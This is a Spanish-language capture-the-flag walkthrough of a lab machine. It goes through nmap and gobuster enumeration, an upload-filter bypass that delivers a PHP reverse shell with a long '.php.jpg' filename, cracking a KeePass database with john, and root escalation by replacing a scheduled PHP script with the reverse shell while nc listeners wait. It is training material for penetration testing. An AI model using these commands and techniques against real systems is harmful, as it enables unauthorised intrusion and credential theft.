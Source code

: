 

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
# Nmap 7.93 scan initiated Mon May 29 21:56:58 2023 as: nmap -p- --open --min-rate=5000 -sS -Pn -sV -T4 -n -vvv -oN nmap 10.10.178.222
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-05-29 21:56:59 EDT for 31s
Not shown: 65513 closed tcp ports (reset), 18 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Nuestro escaneo de nmap nos muestra 4 puertos abiertos, podremos utilizar ssh con las credenciales que encontraremos mas adelante, un servicio http que al navegar nos muestra una pagina de logeo y tendremos smbclient para ver si podremos enumerar y obtener alguna pista

# Enumeration

Enumeraremos directorios con nuestra herramienta gobuster ejecutando el siguiente comando `gobuster -u http://IPTARGET -w /usr/share/wordlists -t 100`. 

```ruby
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://IPTARGET
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/30 12:43:41 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.225.58/css/]
/cloud                (Status: 301) [Size: 312] [--> http://10.10.225.58/cloud/]
```

Tendremos dos directorios ocultos, en el cual "cloud" podremos cargar archivos mediante una URL externa. Utilizaremos el metodo http de python para transferirnos una reverse shell  y asi obtener una consola interactiva dentro de nuestra maquina atacante.

#  Instrusion

Para empezar, nos descargaremos nuestra reverse shell. En mi caso, utilizare una muy conocida https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php o bien puedes crear tu propia shell.

Una vez descargada y modificada con nuestra LPORT y LHOST, en nuestra maquina atacante iniciaremos nuestro servidor http para poder transferir nuestro archivo malicioso al servidor web. Ejecutamos `python3 -m http.server 4543`. Nos dirigiremos luego al servidor web y transferiremos nuestro archivo malicioso.

Dentro del servidor web escribiremos `http://LHOST:4543/shell.php` pero no nos funcionara. En estos casos el uso de wildcards o escribiendo textos largos con terminacion en archivo .png o jpg podria funcionar. Asique, en nuestra maquina atacante, renombramos nuestro archivo shell.php de la siguiente forma.

	`mv shell.php $(python -c 'print( "as" * 110)').php.jpg` 
	
Luego intentaremos subir el archivo.

	`http://LHOST:4546/asasasasasasas....php.jpg`

Una vez cargado, nos pondremos en escuchar `sudo rlwrap nc -lnvp 4444` y nos dirigiremos a la ruta donde se cargo nuestro archivo malicioso

http://IPTARGET/cloud/images/asasasasas...php

Tendremos que poner .php al final para poder spawnear nuestra shell

Una vez dentro del servidor, luego de hacer su respectiva enumeracion, en el directorio /opt encontraremos un archivo con extension **.kdbx**. Esta extension se basa en el progama **keepassxc**, que es una herramienta para almacenar passwords o credenciales.
Instalaremos keepassxc en nuestra sistema, una vez instalado procedemos a cargar el archivo que encontraremos anteriormente.

	`keepassxc dataset.kdbx`

Nos pedira una password, para corregir este incoveniente, podremos utilizar john en este caso para cracker una password dentro del archivo. Los comandos a realizar son.

	`keepass2john dataset.kdbx > hash.txt
	 john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Descubriremos la password y podremos leer las credenciales del usuario sysadmin.
Realizamos ssh a sysadmin `ssh sysadmin@IPTARGET` y podremos localizar nuestra flag.

# Priv. Escalation

Tendremos que reemplazar un script con nuestra reverse shell pentestmonkey.
Nos dirigiremos a **scripts/lib** y seguiremos los siguientes pasos para obtener una shell con usuario root.
```bash
## Dentro de /scripts/lib

	mv backup.inc.php backup.inc.php332
	touch backup.inc.php
	
## Pegaremos nuestra reverse shell dentro de archivo creado

## En nuestra maquina atacante nos pondremos en escucha

	nc -nvlp 3333

# Esperaremos unos segundos o minutos y obtendremos nuesta shell
```
